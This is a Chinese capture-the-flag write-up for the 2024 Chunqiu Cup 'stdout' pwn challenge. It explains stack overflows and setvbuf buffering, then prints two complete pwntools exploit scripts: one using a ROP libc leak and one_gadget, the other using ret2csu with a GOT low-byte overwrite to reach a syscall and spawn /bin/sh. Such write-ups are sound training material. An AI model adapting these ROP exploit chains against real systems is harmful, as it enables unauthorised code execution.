

# [CTF] 2024春秋杯 stdout

- 原帖: https://www.52pojie.cn/forum.php?mod=viewthread&tid=1942436
- 抓取时间: 2026-11-01T22:27:44

## 考点
文件，`setvbuf`缓冲区，`ret2syscall`，`ret2csu`
题目给了`libc`文件。
`main`函数和`vuln`函数存在明显的栈溢出

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[80]; // [rsp+0h] [rbp-50h] BYREF

  init(argc, argv, envp);
  puts("where is my stdout???");
  read(0, buf, 0x60uLL);
  return 0;
}
```

```c
ssize_t vuln()
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF
  return read(0, buf, 0x200uLL);
}
```

## 解1
直接从`main`跳到`vuln`，然后写了`got`地址、`libc`地址，`ret2libc`收工。
然后老是泄露不出来。。。
原因是`setvbuf`设置了`stdout`全缓冲：

```c
int init()
{
  setvbuf(stdout, 0LL, 0, 0LL);
  return setvbuf(stdin, 0LL, 2, 0LL);
}
```

`setvbuf`函数，它有三种`mode`：
全缓冲：（`_IOFBF`）0，缓冲区满 或 调用`fflush()`后输出缓冲区内容。
行缓冲：（`_IOLBF`）1，缓冲区满 或 遇到换行符 或 调用`fflush()`后输出缓冲区内容。
无缓冲：（`_IONBF`）2，直接输出。
也就是说，要想使缓冲区的`got`地址打印出来，有以下思路：
- 重新设置`setvbuf`，但这不知道管不管用，没法尝试因为这需要4个参数，没法控制`rdx`和`rcx`
- 调用`fflush(stdout)`，但是需要泄露`libc`地址，死循环，这里做不到
- 挤爆缓冲区，自然就会把内容打印出来了
这里只有第三种思路是可行的。
但是实际操作的时候，本地可以`getshell`，但是远程不行，寄！
另外，`system("/bin/sh")`不行，但是`one_gadget`可以。

### Exp
```python
from pwn import *

import sys

if len(sys.argv) == 3:
    ip = sys.argv[1]
    port = sys.argv[2]
    sh = remote(ip,port)
else:
    sh = process("./pwn")

elf = ELF("./pwn")
libc = ELF("./libc-2.31.so")
offset1 = 0x50+8
vuln = 0x40125D
offset2 = 0x20+8
pop_rdi = 0x00000000004013d3 # pop rdi ; ret
ret = 0x000000000040101a # ret
puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]
main = elf.symbols["main"]
extend = elf.symbols["extend"]
hello = 0x402032
just = 0x402008
sh.send(b"a"*offset1 + p64(vuln))
sleep(1)
payload = b'b'*(offset2) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(pop_rdi) + p64(hello) + p64(puts_plt)+ p64(vuln) + p64(vuln)
sh.send(payload)
recv_data = sh.recv(timeout=1)
print("----",len(recv_data))
i = 0 
for i in range(0):
    payload = b'c'*(offset2) + p64(pop_rdi) + p64(just) + p64(puts_plt) + p64(vuln)
    sleep(1)
    sh.send(payload)
    print(i)
recv_data = sh.recv()
puts_addr = u64(recv_data.split(b"hello")[0].split(b'\n')[1].ljust(8,b"\x00"))
print(recv_data.split(b"hello")[0])
print(hex(puts_addr))
pause()
puts_offset = libc.symbols["puts"]
libc_base = puts_addr - puts_offset
system = libc_base + libc.symbols["system"]
bin_sh = next(libc.search(b"/bin/sh\x00")) + libc_base
print("bin_sh--",hex(bin_sh)," system--",hex(system))
one_gadget = [0xe3afe,0xe3b01,0xe3b04]
pop_r15_r12 = 0x00000000004013cc # pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
payload = b'a'*offset2 + p64(pop_r15_r12) + p64(0) * 4 + p64(one_gadget[0] + libc_base)
sh.send(payload)
sh.interactive()
```



## 解2
控制读入`binsh`，修改`setvbuf`低位为`syscall`，通过`read`修改，然后`read`读入赋给`rax`为`0x3b`，`csu`跳到`syscall`执行
写入`/bin/sh`不难，写到`bss`段即可
修改`setvbuf`低位为`syscall`，这个是相邻函数存在着`syscall`

```asm
# csu1
.text:00000000004013CA 5B                            pop     rbx
.text:00000000004013CB 5D                            pop     rbp
.text:00000000004013CC 41 5C                         pop     r12
.text:00000000004013CE 41 5D                         pop     r13
.text:00000000004013D0 41 5E                         pop     r14
.text:00000000004013D2 41 5F                         pop     r15
.text:00000000004013D4 C3                            retn
# csu2
.text:00000000004013B0 4C 89 F2                      mov     rdx, r14
.text:00000000004013B3 4C 89 EE                      mov     rsi, r13
.text:00000000004013B6 44 89 E7                      mov     edi, r12d
.text:00000000004013B9 41 FF 14 DF                   call    qword ptr [r15+rbx*8]
```

先执行`csu1`，然后通过`ret`跳转执行`csu2`，最后`call [r15]`
`rbx`：取0，方便后面`call`的时候控制地址
`rbp`：没啥用，取0
`r12`：`mov`给`rdi`--> `mov edi, r12d`，`rdi`高位都是0
`r13`：传给`rsi`
`r14`：传给`rdx`
`r15`：放入的值应该是存放了要执行函数地址的指针，如放入某个`got`地址，其指向的则是函数的真实地址，`call`的时候就回去执行该函数
本地不行，远程可以，6！

### Exp
```python
from pwn import *

import sys

if len(sys.argv) == 3:
    ip = sys.argv[1]
    port = sys.argv[2]
    sh = remote(ip,port)
else:
    sh = process("./pwn")

libc = ELF("./libc-2.31.so")
elf = ELF("./pwn")
context(os="linux",arch="amd64",log_level="debug")

offset1 = 0x50+8
offset2 = 0x20+8
bss = 0x404070 + 0x100
read_plt = elf.plt["read"]
setvbuf_got = elf.got["setvbuf"]
pop_rsi_r15 = 0x00000000004013d1 # pop rsi ; pop r15 ; ret
pop_rdi = 0x00000000004013d3 # pop rdi ; ret
csu1 = 0x4013CA
csu2 = 0x4013B0
vuln = 0x40125D

payload1 = b"a"*offset1 + p64(vuln)
sh.send(payload1)

payload2 = b"a"*offset2 + p64(pop_rsi_r15) + p64(bss) + p64(0) + p64(read_plt) + p64(vuln)
payload2 = payload2.ljust(0x200,b"\x00")
sh.send(payload2)
sleep(1)
sh.send(b"/bin/sh\x00")

payload3 = b"a"*offset2+p64(pop_rsi_r15)+p64(setvbuf_got)+p64(0)+p64(read_plt)
payload3 += p64(pop_rsi_r15)+p64(bss+0x200)+p64(0)+p64(read_plt)
payload3 += p64(csu1)+p64(0)*1+p64(1)+p64(bss)+p64(0)*2+p64(setvbuf_got)+p64(csu2)
pause()
sh.send(payload3)
sleep(1)
sh.send(b"\xc9")
pause()
sh.send(b"c"*0x3b)
sh.interactive()
```

Gadgets information
============================================================


```
0x00000000004013cc : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004013ce : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004013d0 : pop r14 ; pop r15 ; ret
0x00000000004013d2 : pop r15 ; ret
0x00000000004013cb : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004013cf : pop rbp ; pop r14 ; pop r15 ; ret
0x00000000004011fd : pop rbp ; ret
0x00000000004013d3 : pop rdi ; ret
0x00000000004013d1 : pop rsi ; pop r15 ; ret
0x00000000004013cd : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040101a : ret
```

## csu1

=============================================================

```
.text:00000000004013CA 5B                            pop     rbx
.text:00000000004013CB 5D                            pop     rbp
.text:00000000004013CC 41 5C                         pop     r12
.text:00000000004013CE 41 5D                         pop     r13
.text:00000000004013D0 41 5E                         pop     r14
.text:00000000004013D2 41 5F                         pop     r15
.text:00000000004013D4 C3                            retn
```

## csu2

==============================================================

```
.text:00000000004013B0 4C 89 F2                      mov     rdx, r14
.text:00000000004013B3 4C 89 EE                      mov     rsi, r13
.text:00000000004013B6 44 89 E7                      mov     edi, r12d
.text:00000000004013B9 41 FF 14 DF                   call    ds:(__frame_dummy_init_array_entry - 403E10h)[r15+rbx*8]
```

'''

### 参考

[//www.cnblogs.com/imarch22/p/18288087#stdout" target="_blank" rel="noopener noreferrer nofollow"](https://www.cnblogs.com/imarch22/p/18288087#stdout:rel="nofollow noopener" href="https)

[//www.mrskye.cn/archives/eedef7bd/" target="_blank" rel="noopener noreferrer nofollow"](https://www.mrskye.cn/archives/eedef7bd/:rel="nofollow noopener" href="https)

[//xkaneiki.github.io/2020/10/23/unexploitable/" target="_blank" rel="noopener noreferrer nofollow"](https://xkaneiki.github.io/2020/10/23/unexploitable/:rel="nofollow noopener" href="https)

[//cloud.tencent.com/developer/article/2063693" target="_blank" rel="noopener noreferrer nofollow"](https://cloud.tencent.com/developer/article/2063693:rel="nofollow noopener" href="https)
